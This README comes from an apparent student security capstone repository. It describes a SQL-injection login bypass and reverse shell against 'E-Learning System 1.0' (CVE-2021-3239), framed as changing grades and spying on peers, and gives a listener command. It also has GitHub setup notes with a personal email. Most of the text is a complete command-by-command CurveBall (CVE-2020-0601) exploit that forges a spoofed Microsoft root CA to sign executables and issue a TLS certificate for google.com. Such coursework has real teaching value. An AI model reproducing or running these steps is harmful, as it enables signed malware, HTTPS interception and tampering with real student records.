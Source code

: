 # CS590J Capstone 

The general idea: Victim is a school education system that has all the grades and tons of student/teacher information. We are a student that wants to have malicious access to this system to modify school files, spy on peers, and whatever teacher files are on the computer (data modification and exfil). There is a vulnerability in the system (CVE-2021-3239): "E-Learning System 1.0" (an actual piece of software submitted to an open source website which was used by a public school in the Philippines) is vulnerable to SQL injection and we are able to authenticate by SQL injecting an "or TRUE" into the unsanitized login screen and then gain a reverse shell.

#How to setup the victim and environment
To test this out, generally follow the setup instructions here: https://www.sourcecodester.com/php/12808/e-learning-system-using-phpmysqli.html.
- First setup a virtual machine in virtualbox of windows 10 old version: https://drive.google.com/file/d/1OUPmqJ7JiYdY5jt7T7G9oDnN01usJs7v/view?usp=sharing. I gave it 32 GB storage and 5 GB RAM, but more is better of course. All future instructions are from this VM.
- Install XAMP version 7.2.33 onto this windows VM(this version is important) https://www.apachefriends.org/download.html. You will have to click more and then find version 7.2.33. Download the most frequently downloaded copy of this version.
- Install netcat through nmap https://nmap.org/
- Install the most recent version of Python and pip install requests and colorama (it's a lot easier to see colored text stand out)
- Follow the instructions in the first link to setup E-Learning System 1.0. This includes extracting the CAIWL program, running apache and mySQL, setting up a database.
- Execute the python script (exploit.py) from anywhere (on the VM unless you specify the ports from another machine - we need to modify the code if we want it to open a port onto another VM) to gain a reverse shell where you have another window running:
```
ncat -l 9999
```
- All in all it looks like so:
![Image of the Code](https://github.com/yshneyderman/CS590J-Capstone/blob/main/example.png)


##How to Setup GitHub
Generate SSH Keys
- sudo apt-get install git
- git config --global user.email "yealsh21@gmail.com"
- git config --global user.name "Yefim"
- ssh-keygen -t ed25519 -C "yealsh21@gmail.com"
- eval "$(ssh-agent -s)"
- ssh-add ~/.ssh/id_ed25519
- sudo apt-get install xclip
- xclip -selection clipboard < ~/.ssh/id_ed25519.pub

Add SSH Keys
- Login to GitHub, click profile, click settings and add SSH Key. Paste Key, give any title.

Clone the Repository
- git clone git@github.com:yshneyderman/CS590J-Capstone.git

Install Ruby:
- sudo apt update
- sudo apt install ruby

Adding changes (to a branch)
- git commit -a -m "What I changed"
- git push

#CurveBall (CVE-2020-0601) Exploit



## Usage
Create a certificate with the same public key and parameters of a trusted CA. This will be used as our spoofing CA. Set the generator to a value, where you know the private key. You can easily set the generator to the public key, and have a private key set to `1`, since `Q = dG`.

Next up, you create a certificate signing request with the extensions you wish to use, e.g. code signing or server authentication.

Sign this certificate request with your spoofed CA and CA key, and add the usage extensions.

Bundle the signed certificate request (now a regular certificate) with the spoofed CA, and you have a signed and trusted certificate. 

When Windows checks whether the certificate is trusted, it'll see that it has been signed by our spoofed CA. It then looks at the spoofed CA's public key to check against trusted CA's. Then it simply verifies the signature of our spoofed CA with the spoofed CA's generator - this is the issue.

If you choose to open your newly and signed, trusted certificate in Windows, it'll not recognize it as trusted, since it hasn't been tied to anything, thus it will not use the spoofed CA. The certificate must always present itself with the spoofed CA.

## Code Signing
*Please use this for educational and researching purposes only.* 

Extract the public key from the CA and modify it according to the vulnerability:

    ruby main.rb ./MicrosoftECCProductRootCertificateAuthority.cer
Generate a new x509 certificate based on this key. This will be our own spoofed CA.

    openssl req -new -x509 -key spoofed_ca.key -out spoofed_ca.crt
Generate a new key. This key can be of any type you want. It will be used to create a code signing certificate, which we will sign with our own CA.

    openssl ecparam -name secp384r1 -genkey -noout -out cert.key
Next up, create a new  certificate signing request (CSR). This request will oftenly be sent to trusted CA's, but since we have a spoofed one, we can sign it ourselves.

    openssl req -new -key cert.key -out cert.csr -config openssl_cs.conf -reqexts v3_cs
Sign your new CSR with our spoofed CA and CA key. This certificate will expire in 2047, whereas the real trusted Microsoft CA will expire in 2043.

    openssl x509 -req -in cert.csr -CA spoofed_ca.crt -CAkey spoofed_ca.key -CAcreateserial -out cert.crt -days 10000 -extfile openssl_cs.conf -extensions v3_cs
The only thing left is to pack the certificate, its key and the spoofed CA into a PKCS12 file for signing executables.

    openssl pkcs12 -export -in cert.crt -inkey cert.key -certfile spoofed_ca.crt -name "Code Signing" -out cert.p12
Sign your executable with PKCS12 file.

    osslsigncode sign -pkcs12 cert.p12 -n "Signed by ollypwn" -in 7z1900-x64.exe -out 7z1900-x64_signed.exe

## SSL/TLS
*Please use this for educational and researching purposes only.* 
Extract the public key from the CA and modify it according to the vulnerability:

    ruby main.rb ./MicrosoftECCProductRootCertificateAuthority.cer
Generate a new x509 certificate based on this key. This will be our own spoofed CA.

    openssl req -new -x509 -key spoofed_ca.key -out spoofed_ca.crt
Generate a new key. This key be of any type you want. It will be used to create a SSL certificate, which we will sign with our own CA.

    openssl ecparam -name secp384r1 -genkey -noout -out cert.key
Next up, create a new  certificate signing request (CSR). This request will oftenly be sent to trusted CA's, but since we have a spoofed one, we can sign it ourselves.

If you wish to change the domain name, edit `CN  = www.google.com` to `CN  = www.example.com` inside of `openssl_tls.conf`.

    openssl req -new -key cert.key -out cert.csr -config openssl_tls.conf -reqexts v3_tls
Sign your new CSR with our spoofed CA and CA key. This certificate will expire in 2047, whereas the real trusted Microsoft CA will expire in 2043.

    openssl x509 -req -in cert.csr -CA spoofed_ca.crt -CAkey spoofed_ca.key -CAcreateserial -out cert.crt -days 10000 -extfile openssl_tls.conf -extensions v3_tls
You can now use `cert.crt`, `cert.key`, and `spoofed_ca.crt` to serve your content. Again, remember to add the spoofed_ca.crt as a certificate chain in your server's HTTPS configuration.

See the usage example in [https://github.com/IIICTECH/-CVE-2020-0601---ECC-/blob/master/tls/index.js).

